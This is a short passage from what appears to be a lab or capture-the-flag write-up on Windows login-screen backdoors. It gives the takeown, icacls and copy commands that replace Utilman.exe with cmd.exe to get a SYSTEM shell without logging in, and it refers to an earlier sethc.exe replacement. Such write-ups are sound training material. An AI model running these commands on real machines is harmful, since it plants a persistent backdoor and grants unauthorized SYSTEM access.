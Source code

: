 ![task7-utilman](./images/task7-utilman.png)

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

![task7-cmd2](./images/task7-cmd2.png)
